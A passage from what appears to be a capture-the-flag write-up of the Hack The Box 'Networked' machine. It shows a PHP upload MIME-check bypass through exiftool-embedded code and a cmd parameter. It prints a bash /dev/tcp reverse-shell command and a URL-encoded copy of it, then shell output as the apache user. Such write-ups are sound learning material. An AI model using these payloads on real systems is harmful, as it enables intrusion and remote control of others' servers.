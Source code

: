 Seems we have the source code of the website.

Apparently we can upload pictures in `/upload.php`:

![uploaded successfully](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/networked/uploaded.png)

and then view it in `/photos.php`:

![view photo](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/networked/photos.png)

Moreover the file is stored following this pattern `/uploads/<IP>.<extension>`.

At this point and after a quick look at the source code, I'm thinking: "_it's a file upload challenge_" and we have to bypass the mimetype check.

Thanks to `exiftool`, I was able to execute php code:

![exiftool](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/networked/exiftool.png)

![wesh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/networked/wesh.png)

### reverse shell

Steps to have a reverse shell:

1. Download a malicious file that will allow us to execute code remotely:

![exiftool 2](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/networked/exif.png)

2. Test **cmd** parameter:

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/networked/cmd.png)

3. Encode a bash reverse shell command with `burp`:

![burp](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/networked/burp.png)

- Bash reverse shell command: `bash -c 'bash -i >& /dev/tcp/10.10.14.7/1234 0>&1'`

- URL: `http://10.10.10.146/uploads/10_10_14_7.php.jpg?cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%37%2f%31%32%33%34%20%30%3e%26%31%27`

![reverse shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/networked/reverse-shell.png)

## User (apache)

```bash
$ id
uid=48(apache) gid=48(apache) groups=48(apache)
$ cd /home
$ ls
guly
$ cd guly
$ ls -la
ls -la
total 28
drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-rw-------  1 guly guly 639 Jul  9  2019 .viminfo
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
```